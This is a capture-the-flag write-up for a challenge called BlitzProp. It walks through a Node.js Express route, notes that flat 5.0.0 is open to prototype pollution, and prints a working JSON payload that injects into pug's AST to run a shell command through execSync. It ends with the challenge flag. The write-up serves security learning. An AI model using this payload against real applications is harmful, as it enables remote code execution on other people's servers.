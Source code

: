 # BlitzProp
## Description
A tribute page for the legendary alien band called BlitzProp!

## Files
Provided docker environment.

## Looking around
On the main page, we can submit our favourite song from these four choices. From the names we can take hints like `Polluting` and `AST`.

![page](./page.PNG)

## Code

### `routes/index.js`
```js
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
    const { song } = unflatten(req.body);

        if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
                return res.json({
                        'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
                });
        } else {
                return res.json({
                        'response': 'Please provide us with the name of an existing song.'
                });
        }
});
```

## Methodology
We have to include a song name in `/api/submit` request, but we are not restricted with adding our own objects into `JSON`. We also use `pug` as templating engine. Also the request body is `unflatten` using `flat` package. From `package.json` we get the version.

```json
"dependencies": {
    "express": "^4.17.1",
    "flat": "5.0.0",
    "pug": "^3.0.0"
}
```

Version `5.0.0` is vulnerable ([flat-bug](https://github.com/hughsk/flat/issues/105)) to prototype pollution. There is an excellent writeup on `AST, Prototype pollution` and `pug` with provided payload to exploit this vulenrability ([exploit-writeup](https://blog.p6.is/AST-Injection/#Example-1)).

## Exploit
We are going to use `RCE` to write the flag in a file that can be reached from the browser.

![burp](./burp.PNG)

```json
{
    "song.name":"ASTa la vista baby",
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat /app/flag* > /app/static/js/flag.txt`)"
    }
}
```

Result

![flag](./flag.PNG)

## Flag
**CHTB{p0llute_with_styl3}**
